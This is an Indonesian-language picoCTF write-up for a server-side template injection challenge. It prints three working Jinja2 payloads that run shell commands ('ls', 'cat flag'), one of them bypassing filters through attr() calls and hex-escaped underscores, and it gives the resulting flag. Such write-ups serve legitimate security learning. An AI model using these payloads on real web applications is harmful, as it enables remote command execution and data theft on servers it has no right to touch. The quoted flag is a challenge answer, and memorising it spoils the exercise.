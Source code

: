 Find the flag 
https://play.picoctf.org/practice/challenge/488 

Hal-hal yang saya lakukan: 

1. Mencoba payload yang sebelumnya sudah saya gunakan untuk melihat flagnya {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }} Namun sayangnya gagal 
2. Mencoba melihat directori kita dengan {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}} maka kita dapat melihat bahwa terdapat flag requirments.txt 
3. Mencoba mengubah payload yang digunakan dengan {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}} kita mendapatkan flag yaitu picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}

Yang dimana ini merupakan payload yang menghindari (.) lalu menggunakan hex untuk mengencode (_) menggunakan `__getitem__()` untuk menggantikan `[]`  

Bukti 
![alt text](assets/SSTII.png) 
![alt text](assets/SSTII-1.png)
![alt text](assets/SSTII-2.png)

#### Berhasil
